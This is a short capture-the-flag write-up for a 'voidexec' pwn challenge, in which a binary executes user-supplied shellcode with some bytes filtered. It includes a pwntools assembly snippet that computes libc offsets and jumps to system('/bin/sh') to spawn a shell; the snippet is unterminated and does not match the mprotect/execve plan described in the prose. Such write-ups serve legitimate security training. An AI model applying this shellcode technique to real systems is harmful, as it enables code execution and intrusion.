 # Challenge Statement

Attachement: [voidexec.zip](https://github.com/harishkannan05/THM-HackfinityBattle-Writeup/blob/main/Attachments/voidexec.zip)

# Solution
Going through the files, we understand that the binary reads shellcode from the user and executes it.  
The shellcode should not contain `0x15` or `0xCD 0x80`.  
We also find that the `r13` register stores the address of the "main" function.  

Now, we can write the shellcode to call `mprotect` function to change the memory region to read-execute and call the `execve` syscall.  
```
sc = asm(f"""
sub rcx, {libc.sym.mprotect + 0x0b}
mov r12, rcx
add rcx, {libc.sym.system}
mov rdi, r12
add rdi, {next(libc.search(b'/bin/sh'))}
jmp rcx
```

Here's the [script](https://github.com/harishkannan05/THM-HackfinityBattle-Writeup/blob/main/Scripts/VoidExecution.py) I've used.  
